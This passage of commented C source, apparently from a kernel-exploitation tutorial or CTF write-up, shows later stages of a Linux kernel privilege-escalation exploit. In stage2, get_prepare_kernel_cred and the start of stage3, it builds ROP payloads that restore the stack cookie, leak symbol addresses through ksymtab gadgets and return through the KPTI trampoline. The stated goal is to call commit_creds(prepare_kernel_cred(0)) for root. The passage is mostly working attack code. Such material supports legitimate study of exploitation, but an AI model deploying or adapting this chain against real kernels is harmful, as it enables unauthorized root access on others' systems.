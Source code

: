 }

/*
At the end of get_commit_creds, we enter the second stage.
This stage is similar to stage1, but computes the location of the
symbol prepare_kernel_cred.
*/

void  get_prepare_kernel_cred();

void stage2(){
    uint8_t sz = 50;
    uint64_t payload[sz];
    uint64_t cookie_off = 16;

    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX
    payload[cookie_off++] = (uint64_t) 0;  // R12
    payload[cookie_off++] = (uint64_t) 0;  // RBP
    payload[cookie_off++] = (uint64_t) pop_rax_ret;
    payload[cookie_off++] = (uint64_t) ksymtab_prepare_kernel_cred - 0x10;
    payload[cookie_off++] = (uint64_t) read_mem_pop1_ret;
    payload[cookie_off++] = (uint64_t) 0; // dummy pop

    payload[cookie_off++] = (uint64_t) swapgs_restore_regs_and_return_to_usermode + 22; // The KPTI trampoline
    payload[cookie_off++] = (uint64_t) 0; // dummy rax
    payload[cookie_off++] = (uint64_t) 0; // dummy rdi

    payload[cookie_off++] = (uint64_t) get_prepare_kernel_cred;  // compute the location of prepare_kernel_cred

    payload[cookie_off++] = (uint64_t) user_cs;
    payload[cookie_off++] = (uint64_t) user_rflags;
    payload[cookie_off++] = (uint64_t) user_sp;
    payload[cookie_off++] = (uint64_t) user_ss;

    write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

void get_prepare_kernel_cred(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp, rax;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp;
    printf("[+] leaked prepare_kernel_cred 0x%lx\n", prepare_kernel_cred);
    stage3();
}

/*
At the end of get_prepare_kernel_cred, we enter the third stage.
Remember, our ultimate goal is to call commit_creds(prepare_kernel_cred(0)).
The third stage calls prepare_kernel_cred(0). Per calling convention,
the argument needs to be loaded in rdi. Fortunately we have a gadget
for that.
*/

void return_prepare_kernel_cred();

void stage3(){
    uint8_t sz = 50;
    uint64_t payload[sz];
    uint64_t cookie_off = 16;

    payload[cookie_off++] = cookie;
    payload[cookie_off++] = (uint64_t) 0;  // RBX